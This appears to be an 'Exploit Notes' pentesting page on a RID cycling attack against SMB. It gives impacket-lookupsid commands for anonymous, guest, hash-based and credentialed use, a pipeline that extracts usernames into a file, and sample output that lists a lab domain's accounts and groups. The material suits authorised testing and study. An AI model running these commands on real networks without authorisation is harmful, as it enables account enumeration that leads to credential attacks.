 <div>
	<img src="./assets/logo_exploit-notes.png" alt="Exploit Notes Logo" width="16" height="auto">
	<span style="#963bc2: white; font-size: 110%;"><strong>Exploit Notes</strong></span>
</div>

[SMB (Server Message Block) Pentesting](https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/)

[**#RID Cycling Attack**]

RID enumeration.  
It attempts to enumerate user accounts through null sessions.
```sh
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000
# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

<🔄 Alternative Step>

`impacket-lookupsid 'SOUPEDECODE.LOCAL/charlie:charlie@192.168.56.103'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 192.168.56.103
[*] StringBinding ncacn_np:192.168.56.103[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2986980474-46765180-2505414164
498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SOUPEDECODE\Administrator (SidTypeUser)
501: SOUPEDECODE\Guest (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
512: SOUPEDECODE\Domain Admins (SidTypeGroup)
513: SOUPEDECODE\Domain Users (SidTypeGroup)
514: SOUPEDECODE\Domain Guests (SidTypeGroup)
```